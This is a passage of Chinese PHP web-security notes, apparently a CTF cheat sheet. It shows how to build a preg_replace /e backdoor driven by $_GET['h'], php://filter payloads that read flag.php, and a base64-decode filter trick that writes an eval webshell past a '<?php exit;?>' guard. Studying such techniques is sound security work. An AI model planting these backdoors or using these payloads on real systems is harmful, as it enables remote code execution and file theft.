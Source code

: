     第一个参数需要e标识符，有了它可以执行第二个参数的命令
    第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：



```powershell
// 这样是可以执行命令的
echo preg_replace('/test/e', 'phpinfo()', 'just test');
 
// 这种没有匹配上，所以返回值是第三个参数，不会执行命令
echo preg_replace('/test/e', 'phpinfo()', 'just tesxt');
```

我们可以构造这样的后门代码

```powershell
@preg_replace("//e", $_GET['h'], "Access Denied");  
echo preg_replace("/test/e", $_GET["h"], "jutst test");
```

当访问这样这样的链接时就可以被触发

```powershell
http://localhost:8000/testbug.php?h=phpinfo();
```

# 14. 伪协议

可以应用于

 - file_get_contents


 - readfile

## php://filter

读取文件

```powershell
/lfi.php?file=php://filter/convert.base64-encode/resource=flag.php
/lfi.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

控制文件写入的处理逻辑

```php
<?php 
show_source(__FILE__); 
$c = "<?php exit;?>"; 
@$c.=$_GET['c']; 
@$filename = $_GET['file']; 
@file_put_contents($filename, $c); 
highlight_file('tmp.php'); 
?>
# 先对内容做base64-decode，然后再写入文件
php://filter/write=convert.base64-decode/resource=abc.php&c=0PD9waHAgQGV2YWwoJF9SRVFVRVNUWydoJ10pOz8%2B
# php 在做 base64_decode 的时候会自动去掉无法解析的字符<?php exit;?>会变成phpexit，因为base64是每4个字符进行解析的，因此前面加上任意字符补全，注意如果base64里面有+号，要记得 urlencode
```
